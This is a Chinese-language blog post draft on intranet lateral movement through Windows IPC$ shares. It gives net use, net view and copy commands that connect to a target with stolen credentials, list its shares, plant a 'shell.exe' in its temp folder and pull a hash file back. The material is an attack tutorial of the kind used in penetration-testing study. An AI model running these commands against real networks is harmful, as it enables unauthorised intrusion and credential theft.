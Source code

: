 ```yaml
---
title: "内网横向移动方法"
date: 2022-06-01T18:08:48+08:00
draft: true
image: 
description: 
comments: true
license: true
math: false
categories:

tags:

---
```


## IPC连接

> 条件：
> 1、目标机开启了139和445端口；
> 2、目标主机管理员开启了ipc$默认共享；
> 3、知道目标机的（权限足够的）账户密码。
> 4、NT或以上操作系统

`IPC$(Internet Process Connection)`是共享”命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限,在远程管理计算机和查看计算机的共享资源时使用。

利用`IPC$`,连接者甚至可以与目标主机建立一个连接，利用这个连接，连接者可以得到目标主机上的目录结构、用户列表等信息。

命令：

```
net use \\192.168.10.2\ipc$ /user:"username" "password"
//建立ipc连接
net use \\192.168.10.2 /u:domainname\username "password"
// 域中建立ipc连接
net use \\192.168.10.2 /de /y 
// 删除ipc连接(使用完之后记得删除)
```

### 用IPC进行文件目录操作

```
net view \\192.168.10.2 
//查看共享目录
net view \\192.168.10.2\c$\users 
//列出指定目录文件
copy shell.exe \\192.168.10.2\C$\windows\temp\ 
//复制文件到目标目录
copy \\192.168.10.2\C$\windows\temp\hash.txt 
//下载文件到当前目录
net use z: \\192.168.10.2\c$ "密码" /user:"用户名"  
//将对方的c盘映射为自己的z盘
```
